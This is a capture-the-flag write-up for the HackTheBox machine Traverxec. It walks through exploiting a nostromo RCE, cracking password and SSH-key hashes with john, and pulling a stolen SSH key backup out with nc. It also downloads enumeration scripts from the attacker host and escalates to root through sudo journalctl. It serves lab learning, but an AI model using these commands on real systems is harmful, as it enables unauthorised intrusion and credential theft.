

# Traverxec

Author: Ewaël

**Traverxec** is an easy HackTheBox box by jkr.

`nmap -sC -sV -oN nmap 10.10.10.165 -v -A` shows ports 22 and 80 are open. Let's check the website first.



After moving around without finding anything interesting I see the website version is `no stromo 1.9.6` in the nmap results.

```
$ searchsploit nostromo
...
nostromo 1.9.6 - Remote Code Execution | multiple/remote/47837.py
...
```

I decide to use it through metasploit after setting `RHOSTS` and `LHOST` correctly and it successfully spawns a shell as `www-data`.

## Privilege escalation

First of all I use `python -c 'import pty; pty.spawn("/bin/bash")'` to get a nicer shell and I start looking for privilege escalation related stuff like `sudo -l` or SUID files but I don't find anything useful. I find a hashed password in `/var/nostromo/conf/.htpasswd`:

```
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

`david` is the machine user so I decide to crack the password with john:

```
john --wordlist=/usr/share/wordlists/rockyou.txt david
```

It returns `Nowonly4me` as the password but it does not help me as this password is not `david`'s password and does not work for the `sudo` password either. As this point I have no idea what to do so I decide to try some enumeration.

`wget` is available on the machine but `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` does not work. I decide to download it on host in order to get it from there because the github link seemed to be the problem on the machine. Indeed, doing `python -m SimpleHTTPServer 80` on host and `wget http://10.10.14.34/LinEnum.sh` on the box successfully downloads the script.

After executing it and not finding anything useful I do the same thing with `linpeas.sh` but I get the same results. The only interesting file is the password I already cracked.

Going back to `/var/nostromo/conf` I realize that I ignored a file named `nhttp.conf`:

```
# MAIN [MANDATORY]

servername		traverxec.htb
serverlisten		*
serveradmin		david@traverxec.htb
serverroot		/var/nostromo
servermimes		conf/mimes
docroot			/var/nostromo/htdocs
docindex		index.html

# LOGS [OPTIONAL]

logpid			logs/nhttpd.pid

# SETUID [RECOMMENDED]

user			www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess		.htaccess
htpasswd		/var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons			/var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs		/home
homedirs_public		public_www
```

I see that `homedirs` lines and after some searching I realize that I can access `/home/david/public_www`. I download a compressed file in `/home/david/public_www/protected-file-area` named `backup-ssh-identity-files.tgz` with 

```
$ nc -lvnp 4444 > backup-ssh-identity-files.tgz             // on host
$ nc 10.10.14.34 4444 < backup-ssh-identity-files.tgz`      // on box
```

This file contains the `david` private ssh key. I crack the passphrase with john again:

```
$ python /usr/share/john/ssh2john.py id_rsa > david_hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt david_hash
```

`hunter` seems to be the passphrase. I log to the machine as `david` with his private key and passphrase and I get the user flag:

`7db0b48469606a42cec20750d9782f3d`

I still can't run `sudo -l` because neither `hunter` nor `Nowonly4me` are the correct passwords. There is a script in /home/david/bin named `server-stats.sh`:

```bash
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

It shows that I can run `journalctl` with root rights using `/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service`. A quick search on [GTFOBins](https://gtfobins.github.io) shows me on to pop a root shell using `!/bin/sh` in the `less`. I can now read the root flag:

`9aa36a6d76f785dfd320a478f6e0d906`
